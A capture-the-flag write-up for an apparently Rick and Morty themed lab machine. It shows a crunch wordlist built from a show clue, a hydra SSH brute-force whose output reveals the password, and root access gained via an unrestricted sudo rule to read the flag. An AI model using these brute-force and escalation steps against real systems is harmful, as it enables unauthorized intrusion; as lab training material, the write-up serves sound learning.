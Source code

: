 got his band name as:
`The Flesh Curtains` in the episode `Big Trouble in Little Sanchez`

used `crunch` to make a custom wordlist
```
crunch 5 5 -t ,%The > rick_wordlist.txt
crunch 7 7 -t ,%Flesh >> rick_wordlist.txt
crunch 10 10 -t ,%Curtains >> rick_wordlist.txt
```

used hydra to brute-force the ssh of `RickSanchez`
```
hydra -l RickSanchez -P rick_wordlist.txt $ip ssh -f -W 5 -t 64 -s 22222
```
output
```
[DATA] max 10 tasks per 1 server, overall 10 tasks, 780 login tries (l:1/p:780), ~78 tries per task
[DATA] attacking ssh://10.170.71.213:22222/
[22222][ssh] host: 10.170.71.213   login: RickSanchez   password: P7Curtains
[STATUS] attack finished for 10.170.71.213 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

login as RickSanchez 
```
ssh RickSanchez@$ip -p 22222
```
checked sudo perms
```
sudo -l
```
output
```bash
Matching Defaults entries for RickSanchez on localhost:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User RickSanchez may run the following commands on localhost:
    (ALL) ALL

```

**`(ALL) ALL`**
This means user `RickSanchez` is allowed to run **any command** as root using `sudo` without any restrictions.
immediately went 
```
sudo su
```
Access Granted ROOT
```
cd /root
head FLAG.txt
```
`FLAG: {Ionic Defibrillator} - 30 points`=120/130

